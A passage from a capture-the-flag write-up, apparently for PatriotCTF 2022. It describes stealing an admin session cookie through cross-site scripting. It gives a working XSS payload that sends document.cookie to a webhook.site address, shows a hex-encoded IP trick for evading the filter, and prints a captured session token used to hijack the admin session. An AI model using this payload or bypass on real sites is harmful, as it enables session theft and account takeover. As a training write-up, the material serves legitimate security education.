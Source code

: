 Success!

Now we need to craft a payload that steals the admin user session cookie and bypass the filters in place. To receive back a request, I used https://webhook.site/ and received the following unique URL: `http://webhook.site/6db432a0-7984-4146-9fbc-d6278b9f865f`. There is a single period in the address. To get around this, I `ping webhook.site` to get the ip address (46.4.105.116). From here, we can [convert that ip address to hex](https://onlinehextools.com/convert-ip-to-hex), and we get `(0x2e046974)`. If you try going to http://0x2e046974, it will properly resolve to the correct ip address and hostname, which is neat. Our unique URL is now: http://0x2e046974/6db432a0-7984-4146-9fbc-d6278b9f865f. 

Here is the XSS payload: `<svg onload=document['location']="http://0x2e046974/6db432a0-7984-4146-9fbc-d6278b9f865f/?c="+document['cookie']//`

Let's send it to the admin:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/admin_alert.png" width=40%  height=40%></p>

Let's check our webhook:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/webhook.png" width=70%  height=70%></p>

Sweet! We got a session cookie:
`.eJwlzj0OwjAMQOG7ZGaInSaxe5nKvwKJqRET4u4UMb7pfe9y5BnrXvaU54pbOR5e9pIYBGOKVgo3wEmOtnUYDORs0TjRRaJnnyQtBrK4WVpvigltxIyxTQ6pfWMFSZ6eQL9Az6lIlbmrXZcW2kkHeMYwwlDFWi7Ia8X510D5fAFFYzCb.YiWMRg.092EULk8J3n8Q__eqbmFDDocCbY`

Let's set this as our session cookie value:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/set_session_cookie.png" width=30%  height=30%></p>

Reload the page, and voilà! 